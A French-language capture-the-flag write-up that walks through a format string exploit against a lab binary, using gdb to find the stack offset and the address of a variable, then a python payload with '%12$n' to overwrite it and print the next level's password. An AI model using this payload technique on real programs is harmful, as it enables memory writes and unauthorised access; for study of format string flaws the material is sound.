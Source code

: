 # Format String Exploitation

En décompilant l'exécutable, on remarque que le programme compare une variable statique `m` à la valeur `0x1025544`.

Il contient également un `printf` qui ne prend qu'un argument. Nous allons exploiter la faille `format string`.

L'objectif est d'utiliser les `modifiers` de `printf` pour écrire à l'adresse de la variable `m` la valeur `0x1025544` et ainsi valider la condition qui exécutera un `cat` du fichier contenant le mot de passe du `level5`.


Premièrement, convertissons `0x1025544` en base10.
```
0x1025544 = 16930116
```

Pour comprendre la faille, voici quelques exemples. Exécutons `gdb` pour avoir une idée du fonctionnement de la `stack` :

```
> gdb level4
[...]
> (gdb) disas p
[...]
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```

On `break` juste après l'exécution du `printf` pour observer la `stack`, puis on lance le programme.

```
> (gdb) b *0x08048455
[...]
> (gdb) r
```

Voyons avec un exemple simple : utilisons `%1$p` en argument. Pour information, cela signifie, qu'on va avoir afficher le premier argument, et que nous voulons afficher l'adresse d'un pointeur. Cela va nous permettre de connaitre l'addresse du premier argument.


```
%1$p
[...]
0xb7ff26b0

Breakpoint 1, 0x08048455 in p ()
> (gdb) x $esp+0x04
0xbffff4c4:	0xb7ff26b0
```

On retrouve donc bien notre premier argument. 
`0xb7ff26b0` est donc l'addresse de notre premier argument.

Essayons maintenant en donnant en argument la chaine de caractère `AAAA`. Nous allons associer `%p` avec les `modifiers` `$1` qui sert à indiquer à `printf` qu'il doit afficher l'adresse du premier argument.
```
> (gdb) run
AAAA%1$p
[...]
> (gdb) x $esp 
0xbffff4c0:	0xbffff4f0
> (gdb) x 0xbffff4f0
0xbffff4f0:	0x41414141
```

En faisant `x $esp` on obtient l'addresse de `esp`. Si on affiche cette addresse, on retrouve bien nos `AAAA`.

On peut donc faire notre soustraction pour connaitre l'`offset` entre notre premier argument et le début du buffer. Donc :
 ```
 0xbffff4f0 - 0xbffff4c0
 ```  
Ce qui nous donne en héxadécimal `0x30` soit `48` en base 10.

On fait `48 / 4` et on obtient `12`.  
L'offset est donc de `12`. On peut le vérifier en affichant la pile.
Notre premier argument étant à `esp + 0x04`, on à un décalage de 1. 

```
> (gdb) x/13wx $esp
[...]
0xbffff4c0:	0xbffff4f0	0xb7ff26b0	0xbffff734	0xb7fd0ff4
0xbffff4d0:	0x00000000	0x00000000	0xbffff6f8	0x0804848d
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141
```

On retrouve bien notre premier argument qui est `0xb7ff26b0` et notre `AAAA` qui est `0x41414141`. 

Si on raisonne de la manière dont `printf` s'exécute, il écrit d'abord `AAAA` en mémoire, puis affiche l'adresse du 12ème argument, qui est maintenant `0x41414141`.


Pour obtenir l'addresse de `m`, nous pouvons faire :

```
> gdb ./level4
[...]
> (gdb) info variables
[...]
0x08049810  m
```

L'addresse de `m` est donc `0x08049810`.
En `little-endian`, cela nous donne : `\x10\x98\x04\x08`.

Nous ne pouvons pas faire d'`overflow` puisque notre programme attend `16930116` caractères. Néanmoins, nous pouvons utiliser le décalage dans `printf`, car le `%d` n'est pas écris dans le `stack`. Nous n'avons donc pas besoin de faire `A * 16930116` ce qui ne serait pas possible. 

Nous allons donc écrire à l'addresse de `m` en ajoutant nos `16930116` caractères, avec un `offset` de `12`.
L'adresse de `m` fait 4 octets. Nous devons donc soustraire 4 à `16930116`.

```
> python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /var/tmp/hack4
> cat /var/tmp/hack4 | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
